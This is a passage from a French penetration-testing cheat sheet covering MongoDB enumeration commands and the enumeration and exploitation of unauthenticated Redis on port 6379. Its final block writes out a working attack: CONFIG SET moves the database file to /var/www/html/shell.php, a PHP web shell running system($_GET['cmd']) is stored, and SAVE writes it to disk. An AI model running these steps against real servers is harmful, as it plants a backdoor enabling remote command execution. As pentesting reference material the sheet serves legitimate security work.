 ### Commandes MongoDB essentielles
```javascript
// Informations système
db.version()
db.serverStatus()

// Énumération
show dbs
show collections
db.users.find()

// Lecture de données
db.collection.find()
db.collection.find().pretty()
```

---

## 🔧 6. Redis (Port 6379) - Énumération & Exploitation

### Scripts Nmap pour Redis
| Script | Description | Usage |
|--------|-------------|-------|
| `redis-info` | Informations Redis | `nmap --script redis-info target` |

### Connexion manuelle Redis
```bash
# Connexion Redis
redis-cli -h target
redis-cli -h target -p 6379

# Test sans authentification
redis-cli -h target ping
```

### Commandes Redis essentielles
```bash
# Informations
INFO
CONFIG GET "*"

# Énumération
KEYS *
GET key
SCAN 0

# Exploitation (si pas d'auth)
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
SET webshell "<?php system($_GET['cmd']); ?>"
SAVE
```

---